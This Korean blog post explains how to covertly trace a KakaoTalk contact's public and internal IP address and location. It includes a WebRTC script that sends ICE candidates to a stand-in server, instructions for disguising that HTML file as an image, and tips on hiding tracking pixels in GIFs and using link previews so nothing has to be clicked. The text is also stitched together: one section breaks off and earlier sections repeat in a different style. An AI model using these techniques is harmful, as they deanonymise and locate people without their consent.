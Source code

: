 ```yaml
---
title: "사진 한 장으로 아이피 추적하기1 - 방법을 찾아보자"
categories : [sec]
date: 2025-04-01
---
```

# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### **기본 절차**
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. 이미지에 링크를 숨겨두기
- EXIF 메타데이터에 링크 삽입 (단, 카카오톡은 이 정보를 삭제할 가능성이 높다)

### 📌 방법 B. HTML을 이미지처럼 위장
1. WebRTC 스크립트를 삽입한 HTML 파일을 만든다.
2. `<img>` 태그와 위장된 제목으로 상대방이 열도록 유도
3. 해당 HTML 파일이 열리면 WebRTC가 실행되고 IP 수집이 시작된다

```html
<script>
    const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
    pc.createDataChannel("");
    pc.createOffer().then(o => pc.setLocalDescription(o));
    pc.onicecandidate = e => {
        if (e.candidate) {
            fetch("https://yourserver.com/log", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({ ip: e.candidate.candidate })
            });
        }
    };
</script>
```
>⚠️ 단점: 상대방이 '이미지'인 줄 알고 열어야 하며, 모바일에서는 실행되지 않을 수 있음

✅ 3. 우리는 이렇게 성공했다: 카카오톡 '사진 미리보기'를 이용한 실전 IP 추적 사례
WebRTC보다 더 현실적인 방식이 바로 이것이다.

카카오톡은 외부 이미지 링크를 미리보기로 자동 불러온다. 이 점을 활용하면, 상대방의 단말기에서 이미지를 로딩하면서 서버에 직접 요청이 들어오고, 그 순간 IP 주소, 브라우저 정보, 기종 정보가 로그로 남는다.
### **1. WebRTC를 활용한 IP 주소 추출 원리**

WebRTC는 브라우저 기반의 P2P(Peer-to-Peer) 기술로, 영상통화, 음성채팅, 파일 전송 등에 사용돼. WebRTC 기반의 서비스를 이용할 경우, 상대방의 **공용 IP 주소**(그리고 일부 경우 내부 IP) 를 확인할 수 있다.

**방법:**

1. 상대방이 WebRTC 기능이 포함된 웹사이트에 접속하도록 유도.
2. 사이트에서 STUN 서버를 이용해 상대방의 공용 IP를 가져옴.
3. 해당 IP를 기반으로 위치를 분석.

---

### **2. 이미지 파일을 통한 WebRTC 유도 방법**

이미지만 전송해서 직접 WebRTC를 실행할 수는 없지만, **이미지에 포함된 URL**을 통해 상대방을 WebRTC 트래킹 사이트로 유도하는 방법이 가능하다.
- 카카오톡 자체에서는 WebRTC가 자동 실행되지 않지만, **특정 방식으로 채팅방에서 코드가 실행되도록 유도할 수 있음.**

### **▶ 방법**

1. **GIF, 스티커, 동영상 파일에 WebRTC 기능이 포함된 링크를 삽입**.
2. **상대방이 클릭하지 않더라도, 미리보기 기능을 이용해 자동 실행되도록 제작**.

🚀 **실전 예제**:

- 상대방이 GIF 파일을 확인하는 순간, **외부 서버에서 WebRTC 실행 코드가 포함된 페이지가 로드**되도록 설정.
- GIF 또는 영상 파일 내부에 **추적용 픽셀(Tracking Pixel)**을 숨겨놓고, 상대방이 볼 때 자동 실행.

💡 **이 방식의 장점**:

- 상대방이 "클릭"하지 않아도 **채팅방에서 미리보기로 확인하는 순간** WebRTC 실행 가능.
- GIF나 영상은 자연스러워서 의심을 덜 살 가능성이 높음.

⚠️ **주의**: 카카오톡의 보안 업데이트에 따라 동작 방식이 달라질 수 있음.

### **방법 1: 이미지 내 링크 삽입 (Meta Link Trick)**

- 이미지 메타데이터(EXIF)에 특정 URL을 숨겨놓고, 상대방이 이미지를 열었을 때 해당 URL이 실행되도록 유도.
- 이 방식은 특정 프로그램에서만 동작하지만, **카카오톡에서는 작동하지 않을 가능성이 높음.**

### **방법 2: HTML 파일을 이미지처럼 위장 (더 효과적)**

1. **WebRTC 추적 페이지 제작**
    - WebRTC IP 추출 스크립트를 포함한 HTML 페이지를 만든다.
    - 이 HTML을 이미지처럼 위장하여 상대방이 열도록 유도.
2. **이미지를 링크로 연결**
    - 상대방이 이미지를 클릭하도록 만들고, 클릭 시 WebRTC 페이지가 열리게 함.
    - 카카오톡에서는 직접 실행되지 않을 수 있지만, 특정 브라우저에서 열리면 가능.
## **🔥 결론**

✅ **가장 확실한 방법**: **카카오톡 영상통화를 통해 WebRTC 패킷 분석**

✅ **차선책**: **WebRTC 기능이 포함된 문서파일(HTML, PDF 등)을 보내 실행 유도**

✅ **고급 기법**: **GIF, 영상 미리보기를 이용해 자동 실행 유도**